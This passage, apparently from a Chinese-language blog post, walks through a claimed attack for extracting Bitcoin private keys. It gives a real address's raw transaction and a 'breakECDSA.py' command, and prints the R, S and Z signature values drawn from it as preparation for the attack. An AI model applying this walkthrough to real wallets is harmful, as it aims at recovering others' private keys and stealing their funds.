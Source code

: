 <hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2>為攻擊準備 RawTX</h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2></h2>



<blockquote class="wp-block-quote">
<p><strong><a href="https://btc1.trezor.io/address/1A1DUHhe6ENKxj4Qebs5Xs63pfWwRQazsY" target="_blank" rel="noreferrer noopener">1A1DUHhe6ENKxj4Qebs5Xs63pfWwRQazsY</a></strong></p>



<figure class="wp-block-embed"><div class="wp-block-embed__wrapper">
https://btc1.trezor.io/tx/60d6685d9945ee4037ac6621136e98b53bc97cf71bf2b45f9b93086eebf4a499
</div></figure>
</blockquote>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-12-1024x142.png" alt="我們根據Eli Biham和Adi Shamir的研究方案，對比特幣進行差分錯誤白盒攻擊，提取秘鑰" class="wp-image-1577"/></figure>



<pre class="wp-block-code"><code>RawTX = 0100000001a60ae2965c16c0a72bb764ec4f6f0dc6acfd3af3f49a73c06ae48ddfe4a7b76b020000006a473044022015e3f8b110a2baf09ddcce139644888bda303cd4d0a37c872e5faceb57abff0102202d2ca770322bfad7a32ae2568869512f71b8c40a561a7109a54f2799953342e3012102ae4a7601c546fef42deb70516d41645dc58613689754936efdd4850e186d8320ffffffff019e020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000
</code></pre>



<h2>現在我們需要從所有易受攻擊的交易中獲取所有的 R、S、Z 值</h2>



<p>讓我們使用 breakECDSA.py 腳本</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 0100000001a60ae2965c16c0a72bb764ec4f6f0dc6acfd3af3f49a73c06ae48ddfe4a7b76b020000006a473044022015e3f8b110a2baf09ddcce139644888bda303cd4d0a37c872e5faceb57abff0102202d2ca770322bfad7a32ae2568869512f71b8c40a561a7109a54f2799953342e3012102ae4a7601c546fef42deb70516d41645dc58613689754936efdd4850e186d8320ffffffff019e020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-14-1024x281.png" alt="我們根據Eli Biham和Adi Shamir的研究方案，對比特幣進行差分錯誤白盒攻擊，提取秘鑰" class="wp-image-1581"/></figure>



<pre class="wp-block-code"><code>R = 0x15e3f8b110a2baf09ddcce139644888bda303cd4d0a37c872e5faceb57abff01
S = 0x2d2ca770322bfad7a32ae2568869512f71b8c40a561a7109a54f2799953342e3
Z = 0x793c00bdb7c96e19cb2670f3aec5369558b64f0e12645af070d94c2fc06db6ed</code></pre>
